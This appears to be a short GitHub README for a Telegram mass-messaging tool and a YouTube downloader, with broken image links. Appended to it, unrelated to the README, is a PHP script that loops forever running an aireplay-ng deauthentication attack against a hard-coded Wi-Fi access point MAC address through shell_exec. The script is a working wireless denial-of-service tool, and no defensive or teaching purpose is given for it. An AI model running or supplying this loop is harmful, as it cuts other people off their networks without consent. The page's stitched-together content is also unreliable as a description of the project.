 # tsendyt


![alt imgcode](https://github.com/birukindrias/tsendyt/main/blob/imgs/1.png)
sendetg: help u to send message to all users in your telegram account
yt: can download any youtube video whether you give him a vedio,channel/playlist[full vedio of it ] links engoy

<?php
while (10 == 10) {
    // exec('sudo aireplay-ng --deauth 0 -a  4C:ED:DE:25:B9:6D wlp2s0mon    '); # code...
    $output
 = 
shell_exec
(
'sudo aireplay-ng --deauth 0 -a 4C:ED:DE:25:B9:6D wlp2s0mon'
);
    
echo "Output of command:\n"
 . 
$output
 . 
"\n"
; 
}
